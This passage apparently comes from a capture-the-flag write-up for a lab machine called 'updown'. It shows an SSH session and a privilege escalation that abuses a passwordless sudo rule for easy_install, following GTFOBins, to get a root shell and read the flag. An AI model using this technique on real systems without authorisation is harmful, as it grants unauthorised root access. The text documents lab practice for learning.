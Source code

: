 ```bash
 * Super-optimized for small spaces - read how we shrank the memory                                                
   footprint of MicroK8s to make it the smallest full K8s around.                                                  
                                                                                                                   
   https://ubuntu.com/blog/microk8s-memory-optimisation                                                            
                                                                                                                   
8 updates can be applied immediately.                                                                              
8 of these updates are standard security updates.                                                                  
To see these additional updates run: apt list --upgradable                                                         
                                                                                                                   
                                                                                                                   
The list of available updates is more than a week old.                                                             
To check for new updates run: sudo apt update                                                                      
                                                                                                                   
Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36                                                              
developer@updown:~$
```

# Privilege Escalation

First thing first, let’s see what developer can run as  root with `sudo -l`.

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

so without password, we can run a software under `/usr/local/bin/easy_install`.

After some googling we found [this](https://gtfobins.github.io/gtfobins/easy_install/). Which seems pretty simple to exploit.

```bash
developer@updown:/usr/local/bin$ sudo easy_install $TF                                                             
WARNING: The easy_install command is deprecated and will be removed in a future version.                           
Processing tmp.iOrikFXoxN                                                                                          
Writing /tmp/tmp.iOrikFXoxN/setup.cfg                                                                              
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.iOrikFXoxN/egg-dist-tmp-T0uWJa                                   
# whoami                                                                                                           
root
```

Now we can read the flag under `/root` directory and pwn the box.

Thanks for reading this post, hope you enjoyed it !

Happy Hacking !